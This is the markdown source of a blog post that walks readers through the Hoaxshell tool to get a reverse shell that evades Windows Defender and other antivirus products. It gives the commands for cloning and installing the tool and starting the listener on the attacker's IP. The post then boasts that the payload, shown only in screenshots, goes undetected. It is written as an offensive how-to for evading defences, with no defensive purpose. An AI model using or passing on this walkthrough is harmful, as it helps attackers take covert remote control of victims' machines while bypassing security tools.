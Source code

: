 ```yaml
---
title: Fully Undetectable Reverse Shells
date: '2022-10-12'
tags: ['writeup', 'cybersecurity']
draft: false
summary: Create a reverse shell which is fully undetectable by Win Defender and other anti virus
images: []
layout: PostLayout
authors: ['default']
---
```


# Frustrated with AVs breaking your shells?

Not to worry anymore I got your back. I will show you how to create a reverse shell which is fully undetectable by Win Defender and other anti virus.

# Introducing [Hoaxshell](https://github.com/t3l3machus/hoaxshell) 🚗
![Hoaxshell](/static/images/blogs/fully-undetectable-reverse-shells/hoaxshell-logo.png)

Hoaxshell is a reverse shell which as of writing this post is **completely undetectable** by Defender and other Anti Viruses.

# Setup 📐
```bash
git clone https://github.com/t3l3machus/hoaxshell
cd hoaxshell
pip3 install -r requirements.txt
```

# Usage 👊🏻
```bash
python3 hoaxshell.py -h
```
![Usage](/static/images/blogs/fully-undetectable-reverse-shells/usage.png)

You need to start by providing an IP to listen on

1. ### Find your IP address
```bash
sudo ifconfig
```

![IP](/static/images/blogs/fully-undetectable-reverse-shells/find-ip.png)

2. ### Start the listener
```bash
python hoaxshell.py -s <Your IP here>
```
![Listener](/static/images/blogs/fully-undetectable-reverse-shells/hoaxshell-start.png)

3. ### Run the giant monstrous payload on the target machine

![Exploit](/static/images/blogs/fully-undetectable-reverse-shells/exploit.png)

<br />

# You now have a shell 🔥🎊

And the best part? You can now run any command without being detected.

![Shell](/static/images/blogs/fully-undetectable-reverse-shells/shell.png)

## Running commands

![Commands](/static/images/blogs/fully-undetectable-reverse-shells/running-commands.png)

## Anti Virus Fool Proof

![AV](/static/images/blogs/fully-undetectable-reverse-shells/anti-virus.png)

Both **Defender** and **Quick Heal** are fooled by the payload and do not detect it.
